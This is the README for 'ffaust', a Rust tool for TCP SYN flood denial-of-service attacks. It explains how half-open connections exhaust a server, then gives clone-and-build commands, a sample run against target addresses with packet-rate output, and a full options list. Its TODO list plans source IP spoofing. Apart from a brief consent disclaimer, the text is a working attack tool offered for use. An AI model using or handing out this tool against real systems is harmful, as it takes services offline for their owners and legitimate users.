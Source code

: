 # MLPS "FFaust"

(Multiple Launch Packet System)

```
   ____       ________   ____                 __ 
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_  
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/  
```

High-performance TCP SYN flooding tool. `ffaust` manipulates packets directly on Ethernet layer and achieves up to 2.5M pps (packets per second) on a single machine.

## Disclaimer

MLPS "FFaust" is a stress testing tool and it is not to be used on targets that you do not have explicit consent to attack.

## Attack vector

A SYN flood attack is a common form of a denial of service attack in which an attacker sends a sequence of SYN requests to the target system (can be a router, firewall, Intrusion Prevention Systems (IPS), etc.) in order to consume its resources, preventing legitimate clients from establishing a regular connection. This DOS attack exhausts a server's memory & CPU and not necessarily bandwidth (which other attacks like ICMP/Ping Flooding do).

At a high level, how this works is that we craft our own TCP SYN packets and then completely flood a server with them. When we send a SYN packet, the server will respond with a SYN-ACK and allocate some memory in the kernel buffer in an attempt to set up a new connection with us (at this point the connection is "half open" which is why the SYN Flooding Attack is also known as the "Half Open Attack"). The half open connections can be seen on the server side with netstat -nt4 | grep "SYN_RECV". By sending multiple SYNs per second, we cantry to get the server to exhaust it's memory and thus make it to be unable to serve legitimate clients.

## Install

To compile from source:

```shell
git clone https://github.com/0xffiber/ffaust.git
cd ffaust
cargo build --release
```

## Usage

Run the tool:

```shell
$ target/release/ffaust 169.172.1.1:80 10.0.1.5:443
   ____       ________   ____                 __
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/

Preparing config... DONE
Source:
  iface eth0
  inet 10.0.0.6
  gw 10.0.0.1
  ether 00:00:00:9a:5f:55
  dest 12:34:56:00:00:00

==> 1s sent: 1,636,753 (1,636,753 pps) traffic: 103.02 MiB (103.02 MiB/s)
==> 2s sent: 3,333,556 (1,666,778 pps) traffic: 209.82 MiB (104.91 MiB/s)
==> 3s sent: 5,012,894 (1,670,964 pps) traffic: 315.52 MiB (105.17 MiB/s)
==> 4s sent: 6,672,925 (1,668,231 pps) traffic: 420.01 MiB (105.00 MiB/s)
==> 5s sent: 8,397,134 (1,679,426 pps) traffic: 528.54 MiB (105.71 MiB/s)
```

To get max performance make sure to properly set number of sender threads (typically number of cores - 2).

Full list of options:

```shell
ffaust 0.1.0

USAGE:
    ffaust [OPTIONS] [TARGET]...

ARGS:
    <TARGET>...    ip:port pair to stress out

OPTIONS:
    -g, --gateway-ip <GATEWAY_IP>            Specify gateway IP address
    -G, --gateway-mac <GATEWAY_MAC>          Specify gateway MAC address
    -h, --help                               Print help information
    -i, --interface <INTERFACE>              Specify network interface to use
    -s, --source-port <SOURCE_PORT>          Source port(s) for packets
    -S, --source-ip <SOURCE_IP>              Source address(es) for packets
    -T, --sender-threads <SENDER_THREADS>    Threads used to send packets  (default=`1')
    -V, --version                            Print version information
```

## Implementation Notes

The tool makes an attempt to identify default interface to run the attack. If the default one could not be detected, please make sure to pass interface name with arguments.

In you have multiple interfaces with external connectivity, you can specify all of them (comma-separated).

Destination MAC is resolved once before launching the attack (using ARP protocol).

Full ethernet packet for each (source -> destination) pair is generated only once. Each of the following packets is created by mutating only a few bytes in the payload (and recomputing TCP header checksum).

## TODO

The tool is under active development:

- [ ] Advanced configuration for interface(s), IP ranges, etc (actually use it)
- [ ] Support source IP spoofing (with flag)
- [ ] Run multiple threads (test if this is going to be necessary againsts single IP address)
- [ ] Settings for number of worker threads & total execution time
- [ ] Option to read config from stdin, resolve for hostnames

